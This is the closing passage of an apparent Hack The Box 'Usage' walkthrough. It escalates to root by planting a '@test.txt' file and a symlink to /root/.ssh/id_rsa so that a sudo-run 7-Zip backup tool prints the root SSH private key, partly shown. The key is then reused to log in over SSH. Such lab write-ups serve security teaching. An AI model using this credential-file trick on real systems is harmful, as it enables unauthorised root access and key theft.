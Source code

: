 ```
```

Cool, lets use this to access the root id_rsa key:

```
xander@usage:/var/www/html$ touch @test.txt
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa test.txt
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54826351

Scanning the drive:
          
WARNING: No more files
-----BEGIN OPENSSH PRIVATE KEY-----

WARNING: No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
<SNIP>
```

Let's remove all the `: No more files` (don't forget to add an empty line at the bottom) and save it as root_id_rsa and `chmod 600` it.

We can then use this to login as the root user:

```
┌──(ryan㉿kali)-[~/HTB/Usage]
└─$ ssh -i root_id_rsa root@10.129.186.156
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
```

We can then grab the final flag:

![htb_usage_root.png](../assets/usage_assets/htb_usage_root.png)

Thanks for following along!

-Ryan

---------------------------------------------------

